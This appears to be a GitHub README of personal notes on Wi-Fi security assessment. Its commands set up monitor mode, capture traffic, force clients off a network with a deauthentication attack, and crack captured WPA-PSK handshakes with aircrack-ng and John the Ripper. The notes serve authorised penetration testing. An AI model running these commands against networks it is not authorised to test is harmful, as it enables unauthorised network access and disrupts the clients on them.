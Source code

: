 # Wi-Fi Assessment Techniques

These are techniques that I have found to work during Wi-Fi assessments (discovery, collection, attack, and crack). This isn't an "end all, be all" list.</br>

# Hardware:
* Need Atheros chipset in the wireless adapter
	* [Check wireless card](https://www.aircrack-ng.org/doku.php?id=compatible_cards)
* Wireless cards that I have used and work:
	* TP-Link TL-WN722N
		* has to be earlier than version 2 due to TP-Link updating the chips on the adapters.
	* Alfa AWUS051NH

# Configuration: System Setup with Hardware
* Might need to kill Network Manager
```
/etc/init.d/network-manager status
```
```
/etc/init.d/network-manager stop
```
* Ensure hardware is connected
```
lsusb
```
* Check wireless status of network adapter
```
iwconfig
```
* If need to bring up the interface
```
ifconfig wlan0 up
```
* This is an optional step: can stay in Managed mode and scan to do light discovery
```
iwlist wlan0 scanning
```

# Monitor Mode
* Watch aircrack-ng's output of errors. Might need to run the following to kill specific process that hinder aircrack-ng.
```
airmon-ng check kill
```
* This sets wlan0 into Monitor mode. This sets a new interface, typically, mon0 or a variation of ie. wlanmon0
```
airmon-ng start wlan0
```
* Monitor for traffic on Monitor interface (i.e. mon0)
```
airodump-ng mon0 
```
* Stopping Monitor Mode when needed
```
airmon-ng stop wlan0mon
```

# Capture traffic
* Interface will your monitor interface that was set above i.e. mon0
```
airodump-ng -c <Channel> --bssid <AP_MAC> -w <File_Prefix> <interface>
```

# WPA-PSK Attack
* Attacking WPA-PSK - Goal: acquire PSK (pre-shared key)
- Need to identify:
	* Name of the wireless network (ESSID)
	* MAC address of the AP (BSSID)
	* Channel that the AP
	* Victim MAC
	* need to capture 4 way handshake
	* Then crack - see below

# Deauth Attack
* In one terminal collect
``` 
airodump-ng -c <CHANNEL> --bssid  <AP_MAC> -w <FILE_PREFIX> <INTERFACE>
```
* In another termainl deauth
```
aireplay-ng --deauth 25 -a <AP_MAC> -c <VICTIM_MAC> <INTERFACE>
```

# Cracking
* Crack with John the Ripper
```
/usr/sbin/john --rules -w=/usr/share/wordlists/rockyou.txt --stdout | aircrack-ng -w - -e <essid> capture.cap
```
* Brute-Force to get the WPA Key (assumption is the packet capture contains the 4 way handshake)
```
aircrack-ng -w /usr/share/wordlists/rockyou.txt wpa_capture.pcap
```
* I've heard hashcat is more effective but I've have not tried this method.

# Wireshark Tips
* Don't forget to add encryption key information to Wireshark
	* From Menu options: Edit->Preferences->IEEE 802.11
